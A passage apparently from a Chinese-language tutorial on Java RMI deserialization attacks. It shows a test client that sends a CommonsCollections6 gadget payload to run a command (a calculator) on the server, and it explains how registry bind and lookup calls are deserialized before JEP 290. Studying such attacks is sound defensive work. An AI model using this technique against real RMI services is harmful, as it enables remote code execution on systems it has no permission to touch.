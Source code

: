 ```java
        } else if (var0 == Double.TYPE) {
            return var1.readDouble();
        } else {
            throw new Error("Unrecognized primitive type: " + var0);
        }
    } else {
        return var0 == String.class && var1 instanceof ObjectInputStream ? SharedSecrets.getJavaObjectInputStreamReadString().readString((ObjectInputStream)var1) : var1.readObject();
    }
}
```
为了方便测试，我们可以在 ICalc 接口中添加一个参数不为基础类型的函数 equ：
```java
public interface ICalc extends Remote {
    public Integer sum(List<Integer> params) throws RemoteException;
    public Object equ(Object a,Object b) throws RemoteException;
}
```
并在服务端和客户端都添加 commons-collections 依赖。

在客户端调用函数，并将 CC6 payload 添加到参数位置, 可以成功触发服务端的命令执行。
```java
public class Test {
    public static void main(String[] args) {
        InvokeEqu();
    }
    public static void InvokeEqu(){
        try {
            Registry registry = LocateRegistry.getRegistry("localhost", 1099);
            ICalc calc = (ICalc) registry.lookup("calc");
            System.out.println(calc);
            System.out.println(calc.equ(new CC6().getPocObject("mate-calc"),null));
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
### 注册中心方法参数的反序列化
#### 攻击注册中心（JEP 290 前）
服务端或者客户端对于注册中心的操作同样会触发反序列化, 例如:
1. 服务端调用 bind 将类实例绑定到注册中心。
2. 服务端调用 unbind 将远程对象解绑。
3. 服务端调用 rebind 重新绑定远程对象。
4. 客户端调用 lookup 查询远程对象。

bind、unbind、rebind、lookup 方法的参数会通过 JRMP 协议发送到注册中心, 并在注册中心进行反序列化。注册中心使用 RegistryImpl_Skel 类的 dispatch 方法进行处理：
```java
public void dispatch(Remote var1, RemoteCall var2, int var3, long var4) throws Exception {
        ...
            switch(var3) {
            case 0:
                RegistryImpl.checkAccess("Registry.bind");

                try {
                    var9 = var2.getInputStream();
                    var7 = (String)var9.readObject();
                    var80 = (Remote)var9.readObject();
                } 

                var6.bind(var7, var80);
                ...
            case 1:
```